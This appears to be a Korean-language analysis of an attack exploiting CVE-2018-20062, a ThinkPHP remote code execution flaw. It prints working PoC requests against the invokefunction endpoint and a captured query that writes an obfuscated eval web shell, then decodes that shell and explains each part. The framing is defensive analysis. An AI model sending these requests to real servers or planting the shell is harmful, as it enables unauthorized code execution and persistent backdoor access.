 > ✅ **CVE-2018-20062**
이는 **ThinkPHP 프레임워크의 심각한 원격 코드 실행 취약점(RCE)** 을 이용한 공격입니다.
해당 취약점은 HTTP Request를 처리하기 위해 controller를 호출할 때,
library/think/ 에서 사용자 입력값을 적절하게 검증하지 않아서 공격자가 "" 기호를 사용하여 class method를 호출하여 공격합니다.

---

### 📌 PoC 구조 

```http
GET /index.php?s=/index/\think\app/invokefunction
    &function=call_user_func_array
    &vars[0]=phpinfo
    &vars[1][]=1
```

혹은

```http
&vars[0]=file_put_contents
&vars[1][]=shell.php
&vars[1][]=<?php system($_GET['cmd']); ?>
```

## 🚨 공격 의심 쿼리 분석

```plaintext
/index/\think\app/invokefunction
&function=call_user_func_array
&vars[0]=file_put_contents
&vars[1][]=baker.php
&vars[1][]=<?php class GcE493F6 { public function __construct($Hy5F7){ @eval("/*ZBc6469V18*/".$Hy5F7.""); }}new GcE493F6($_REQUEST['pass']);echo error303?>
```

### 🔍 주요 구성요소:

| 파라미터                            | 의미                                            |
| ------------------------------- | --------------------------------------------- |
| `function=call_user_func_array` | PHP의 콜백 함수 호출 (ThinkPHP 같은 프레임워크에서 우회 실행에 사용) |
| `vars[0]=file_put_contents`     | 파일을 쓰기 위한 PHP 함수 지정                           |
| `vars[1][]=baker.php`           | 업로드할 파일 이름 (`baker.php`)                      |
| `vars[1][]=...`                 | 파일 내용 – **웹쉘 코드 포함**                          |

---

## 🧨 포함된 악성 코드 (웹쉘)

### 디코딩된 웹쉘 코드:

```php
<?php
class GcE493F6 {
    public function __construct($Hy5F7){
        @eval("/*ZBc6469V18*/" . $Hy5F7 . "");
    }
}
new GcE493F6($_REQUEST['pass']);
echo error303;
?>
```

### 기능 요약:

* `$_REQUEST['pass']` 파라미터로 전달된 코드를 `eval()`로 실행
* PHP 파일 `baker.php`로 저장됨
* 외부에서 명령어를 실행 가능한 **백도어 웹쉘**이 생성됨
* `echo error303`는 단순 응답 확인용 (공격자가 요청 성공 여부 확인하는 방식)

---

### 🔍 요약

| 항목          | 설명                                                                                 |
| ----------- | ---------------------------------------------------------------------------------- |
| **취약점 ID**  | CVE-2018-20062                                                                     |
| **영향받는 버전** | ThinkPHP 5.0.23 이하 버전                                                              |
| **취약점 종류**  | 원격 코드 실행 (RCE)                                                                     |
| **공격 원인**   | `invokeFunction` 엔드포인트가 `call_user_func_array()`를 필터 없이 호출 가능                      |
| **공격 방식**   | `function`과 `vars[]` 파라미터를 통해 **임의의 PHP 함수 호출 가능**, 예: `eval`, `file_put_contents` |
| **공격 결과**   | 원격에서 PHP 웹쉘 업로드 및 명령 실행 가능                                                         |

